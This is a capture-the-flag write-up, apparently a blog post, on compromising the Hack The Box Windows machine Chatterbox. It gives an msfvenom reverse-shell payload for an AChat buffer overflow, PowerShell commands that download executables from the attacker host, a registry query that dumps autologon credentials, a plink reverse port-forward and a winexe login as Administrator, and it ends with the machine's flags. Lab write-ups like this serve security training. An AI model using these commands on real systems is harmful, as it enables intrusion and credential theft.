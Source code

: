 ```yaml
---
layout: post
title:  "HTB Chatterbox Windows"
description: Tools and Techniques used, msfvenom, windows enumeration, port forwarding
tags: Windows, HTB, enumeration
---
```

# Chatterbox
# Recon
Nmap scan
```ruby
PORT     STATE SERVICE REASON          VERSION
9255/tcp open  http    syn-ack ttl 127 AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   syn-ack ttl 127 AChat chat system
```
![](https://lh3.googleusercontent.com/Ow3sXRep1uPWbz4lXhpFvPsKqG_lXQ_MqEDiewySwDGwFJK78AlJffdYrzFyWKPLKTysXJcJkFUDkTDhion_cUnvyqhkBfmyPQ_ZrTgnPkj25O0XXarfcs8KbC_JP2hblOuJrKL1two5ZkEcPb5pimX4wsddGgz4F7P1R5ACbrsMJiHAT1Xl-n_QkroP_xyB2TTIxxORo0xD4yXDJRVXXjOlAE9D6-U7xB8h41fSdeQoA176bBKF7xKf8w1wo8bbRSszz-Z-_IfF2wAhXmtMwwgf_OlUbog4qcQ6N8Os31Oywb_qaGtV59gs3xpPlrMZ7uKzh8GH_a-NR1JIkqEPF4IvGg1YmOKPMftdJkdxK7uG2qRcMGfAd9ippX_otvp1KY_mLz7bEfegGM8ft_IZ8iqtE0yLMMryuWJ5p3HoZbhwZzqLMHjopIrGx0oH4XGAwIsFxegKAscyn9JxkwXNSq_UapuAiLuviMnRlGFCLjsCReSscSThWWVkX0tLjY3nSD50o8iapeaZaQiimVpxqji3xTTx3ijBzWhfzRqlsJAylFfmUAfuCsqHnTn2NRFglhBG92Bbw78JNs4RuHQDlGwX9_bNZzJzHL8hwqGka-g8jzXrcdoSq-xQAiP6Yimuk8PQELf1b-UeQmO2UpsTyMQtiMG5iWrcU8UrHOV0nVpRH3m-GYouIek=w634-h248-no)

# EXPLOITATION
We use Achat python exploit "CVE:2015-1578 2015-1577"
We generate shellcode to use with the Achat BoF
```ruby
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e x86/unicode_mixed -b
'\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d
\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c
\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba
\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9
\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8
\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7
\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6
\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' 
BufferRegister=EAX -f python
```
We set-up nc and we get a reverse shell as user Alfred.

**Optional**: You can also create a `meterpreter` shell with msfvenom and upload it to the target machine. Then use multi/handler to catch it.Ex
```ruby
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.34/reverse.exe', 'reverse.exe')"
```
![](https://lh3.googleusercontent.com/E0KTtqED2h8NIIbu0TeAYzb_ZdtqpaWwMKpTnsVsF3sUjhBh7w017TcrkHWs8QSkfKLxseMPKHVS3ic6w60KZuBRs464UDvZb1BLy1ev_oCauy3a1e31bWoAOUSxwjeTuMkiPY2RxasW3vYYzdEWQlYa3OsYg_2Tfy9n_IKaAyjpBUf7kZXk7bWzbsT6Rsip-lnqI9OKtnuro5vQXYusqJA3lggcf0siKmIgM7Kr0yMdPs6lHqb9uokZYnGJ1zMWUNuOU7h-SiXUVcW8ayedQVYSi1Z0J8fqbZle8kFBQa2GEpDS7oNpEj95L00oaBcWJRZ46cEA_9UntAMA9xd3fFOr6eOA9dgqCknPSksADSeoEn6QuUsqlkAIYgbJ84zt9TEUfFw4gTQavyyrIeAWck4r7utnygDfzwPdeng6RKhR53yMP9xE5QdPnDDEYXHXeBGXkgJHJTtUTT7fdwWlROq4gMSmjOLdOUEl00r0P-YVJnmVbpZ4nNvDQn6kWWDygYd26o5CTG4bkS3b21DuW_Wj0aMBoDhLuXNrJA9-M_5XtJm6CoxxLV-ACYJGd6tsDBOvjrNuBqzMNQ2CQh1FmiSoGnahyooXZ3hrZvp2O7s29hnrPYkhpcjcXEdKVNHJuXcHgiv6emknwMetDGrXXlThMkAAzMpFoXPAFH-PKI7C9ulnhYTbB6I=w610-h500-no)

# Privilege Escalation Port-forwarding
Doing some priv-esc check we find the password for user Alfred

```ruby
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```ruby
DefaultDomainName    REG_SZ    
DefaultUserName    REG_SZ    Alfred
DefaultPassword    REG_SZ    Welcome1!
```
![](https://lh3.googleusercontent.com/w8M3b82YBZqWsjkFH52BdDXFg08eoMzGRCu1ZhaHPAWFcbMD2USy-g7-qIswTFJ2t0Ai-c2uB6R0kpgCH1aRyqDYBsSBq-y4AIkiiN1EmMheKfhYUJdjL6my0AhUee3Od2RlC8YTq8H8XiyAJab3d1TzgNxHfOZeUgHPonBV0w4VtaHe5lENmhOJT1FQAZQRini2zh1xStD7anH1g1gnRdVhGuatw0sxlWZ6sDLwVNu8gDb5TwAwmLxOTZ99JX_y_d3lh351cJNubcjjBa1B-oUkFYT6SZPdECW1yIoqtE6s4KX5xnxkOEuPtdvLrLZSX5QQn-04EgqnUS48DmIgwXjYH9DMV4nbwfEgqq5jBf9fdNnpKodiFHrCVABcrkKnxVogEbtKUFxBd3TLNhG6gXAV3UbtHkh9TGPu1Jqq2RrFbqG-Wu0y7XxTXWnqYMx_WpDnK21BZwjZv7hUD8-u5T0evNwNiZUPWyXA3IC4RvS10aX_UwbzFWnLAujE3Wr27vE0C1r0qEWCWUqKmHFgsG5pEHQpzJt_OXnpXBrKlvKC8hcn51iP208DNvyDQHmOPz8espFyrcu0Vq9Jj6BrtOROWT3PXkEn7l4Tk3gpJLtIPqn5UFRednoDMgb7tp3bTym_5rHpswPsENPZY3tpkBJRSHdAF3lxWWKJ4KfUmBG6p97mA06nH_A=w795-h156-no)

We use the obtanined credentials and try to reuse them with the admin account. To do that we need to set up SSH in our machine
and  open smb port 445 in our target machine using "plink.exe". Then we do a port-forwarding and then a reverse connection. 
First.
```ruby
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.34/plink.exe', 'plink.exe')"
```
![](https://lh3.googleusercontent.com/hLxLdIRfKxQy28HlU6nV2w6JFmlMM7a3afhb2IxG_e4Ykz1FaZXiBsPq0zJIv9ezpDsKXHYm8irI5edlg1MYtsWOZudH6Onf-WxFLvbGarZ6qGYtrTN28Ai6z4whmkHJLH5iO0g2hWAp0QitHrvwbup2Lc7Z7lg2wHwWKRJ9AJ1nkVoYNVuJ-LtSl3DeJ6Hk6ZHQqwHqQoT0Wpitw15BrCyetmGr55kmVqAAG2SwEZVU_Bp0yC7B_EBz184H2KhvJUZQ_NGKbxqqSUOUhHrj9aKHFTEX1mJ-869u4fE6oimEY37Nv0w4yDWCcXOsvXM7sJGHAdLGm1Z001nIRcMiTIx8k1dVXmxqSULC1XtoPL56b0nH5yP3k8SRx88o--AYyyFY5mzURdVim5v3k9_rkUZZ9F4eJGHQOD-VzdqjQjNrNdgKQhk_LKmCT1y2i5ZGHTBxLfUUR2we1i_EIxnGUhVeleSP1oJT6vM06XlOnVYgLJC2uI5mOQHy42WVTnpeEyehVF5ClrSUIcbrROyl5zIs0E3dKOzaSzZIaIvbSujjUZl4Rtp01kyyhGgXRoSCjjqFxtLgesGCKzy3Mf_siDbhqIJfebTaUgtP76LNqyenmXgobsEiFdl6uAAapSDtUkcuTbTD84oCSsjFxoFzLCi6MqwiTd55ychDJTKYL5J1mesYYWDrX4o=w573-h319-no)

![](https://lh3.googleusercontent.com/ABF0QL82Mey0TC-c-kbA1mjoM4JsuHBECUzDFAghPFjcG6GC7PanvKqO7X2_v0cFmBNPzNhm6Le7GyJLEFFLggQaWnE3pvvZIMHCmf8Ot1QUEYta-S-poJnV_5oD4Gatwdi6SeYJvuxhbfEvf1rbxh8xExHZrOgYNCs9CPbWJNjxmY4KsF4o-CEt0RWkcAXVEnM7NZAWP_nd6cw8fqkMHP2HlDfBvjXh0URXLWdQJlUqT78-8Lhex2GejC9-I3EQqL6k_AcqCJJhQ9fDmuNnD0ChvbZZtKyJVyfse6URGDW0Hdhfa9rWDGX-AQ2gcC7zD4XnX9_1w1rDccvwz1NZCclaT3M02vR3qnMvsNhnOg9_24pEFSodDSLUdSNKFShEcUeqgVs36nyQM9XWmYV0ElpqYvGSnP7dcpCqHaH2xR-aHfFIy0Xrw-cYeNgN9EYlhcJ0T9tO5X54rBo3vMJ0PWNwBs_UjjL_Ows6Bq6VkWT9T-jWHtbGREfd0xboX6yMetg32u6Pf1hc9QK4U92oJPGNFjn6Ir7A7nT245KHjKDyouZqvGmWH1NWvneHfDs1k_8Ur-F93cHJMQhwV9Qq9ThFch11iRHFm41jmXN_8AaOSMTNjZKuh1mzIOMK-eKVntM1bwUiWV-TSs_liP05m_oInhZa6MZrXPRCj7foAQwPetDeuvAf2VM=w995-h94-no)

Then.
```ruby
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.34
```
![](https://lh3.googleusercontent.com/3hgewaHdfTeTGCjqWaAFIJpoNsUznouWC1xlwtoIgnhF6HpRn22Z0FbnrDC8mXzVf9_5xwQe3rJi16uK83JauxdvQ3hvMnNz83WR-ff7CiC29tmWxPIElI6e47v80VrQD04tjeaLPel2qJEfv3qwDMAwzXYz99LO8PYoloRu2zuf1GiE-yTbBG4QIWhzr7WXpCOs7_kgYueM46LQhoxZinHBrhe6sVxhFpra-49dHolelEogpxFSEj0Nf1m5xeE_toUHaY9cDYwmdPm8bjZ8_gOd1PlsChrRNMj0QFQ-YyXvAN5kWocC7zQ86p42jrFxRQlhbIEoQQGBMun81Zfd9nUh6pmYuVJ1Yu6jtvaOm0bAjN7sG_ziN964v9_0DPjaFlpNbsB03AM3pSxpzUwIQXQVLQ61WuRYTNF1039tiKnfG6AeXCP5TuQqS5z-BpVQ29hyD44B_KR8MChHtQRHy2tpuxjEAdxpZa-HoFHmTjau7TSuEDe0FGynjcLVuUgcnTMCkJnF2BXme1LENos41q_CFiJCBswLoe3V5Y84VUUkNWd4-H0GfWW5Z4D50pMW3wPVYd3JaHmNI2aPydPlkoUT1Vjna9RETPovCkd-2DAxu4Q6ItEDFl4qkEG7tBX3SYbZ_vwcsb3oOZC4cCvo5V3LBewHKcbC6myd9b-77gUIwK-vF2W8EC8=w671-h377-no)

We check with netstat to make sure the port 445 is open and connecte to us
The we connect reverse using `winexe` and password `Welcome1!` and we get Admin.
```shell
winexe -U Administrator //127.0.0.1 "cmd.exe"
```
![](https://lh3.googleusercontent.com/qJ_iqW9ZDj5NmYHAZhf9jIyp64xLkOF40n8BlPayOvlhVlO6ES1Ud4QqmtpzKuR_jeKSZFcUhGcM5wHNsX089y1-UEH-czLi5PQDnrWRpHcLiRC4HN0a1t_gH6w84RyS2AlIS_vb1ocXjiOV04l-fyvKXqjzqXO0dx2fEG5Siq8hQrJTKsXsDt3yGy_gvGbjLC25SQq97tleHu8n4SCnv2Cjc6DD_6KwehKy7RrJw601snGgZs1Lyx3dpGCcYkOqq2agv-ByaJqWdbhu8cWlzmKQIj-TpuYuFSknz0G0NAjmb0f3IN-ozXv7dP284IcPrDprQFC88QeD_PHfaowY7KERozetcjAFuo1zvQXVDf4Ke20SNOF8lUH8HxjFJxR3uWM8tDu5z9PeTSwvX7NDl2QewQvC1iWSBpNhYotcvim9J4AekXJfTRoUJ1kzaKhbWc7l52ycI8xMUEL9cO0MTMRWN99oD-4KYzZuuGliQT96SpupGQh6PBo9NHgiESB60RbgoAC0bBYDmNkiFzz8VfnDTisQUcXlNpxhvp292s0gjKAhlB04IKC2kKdzPetPbnp51hdsYQ9bFMXerg5vguBK7hew6k6bgzewhoQ5otrBQdVh68vowY2lKnV3aDVD_YnWwP0K2gjFDVUmMUj4rmf95niOwpzc6AGgxgihyn64Q88xaoL6Hq8=w698-h203-no)

# FLAGS
```ruby
USER "72290246dfaedb1e3e3ac9d6fb306334"
ROOT "a673d1b1fa95c276c5ef2aa13d9dcc7c" 
```

